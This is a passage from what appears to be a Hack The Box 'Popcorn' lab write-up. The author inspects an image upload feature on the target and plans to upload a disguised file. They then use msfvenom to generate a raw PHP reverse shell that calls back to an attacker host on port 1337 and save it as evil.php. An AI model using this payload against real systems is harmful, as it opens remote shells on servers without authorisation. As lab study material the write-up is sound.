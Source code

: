 ![uploads.png](/assets/htb_stuff/popcorn/uploads.png)

This might work if I can upload a malformed image. The edit specifies this needs to be in an image format and no larger than 100Kb, a little limiting but maybe usable.

I check the torrent link 10.10.10.6/torrent/torrents.php?mode=download&id=723bc28f9b6f924cca68ccdff96b6190566ca6b4 which in thoery could be big, but the url stays in the same page, whith the API looking to fetch a resource from an unkown storage loaction. I'd need the source code to work that out, at this point a malformed image looks like a good option to try.  

First I need a payload, I'm going with a raw reverse shell that will connect back to me on port 1337 in php 

``` bash
msfvenom -p php/reverse_php lhost=$ATTACK lport=1337 -f raw 
```

This gives me:

```
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3024 bytes
/*<php>/**/
EXPLOIT
```

Under my 100kb, that beats the size requirement. I specify a file to hold my code:


``` bash
msfvenom -p php/reverse_php lhost=$ATTACK lport=1337 -f raw -o evil.php
```
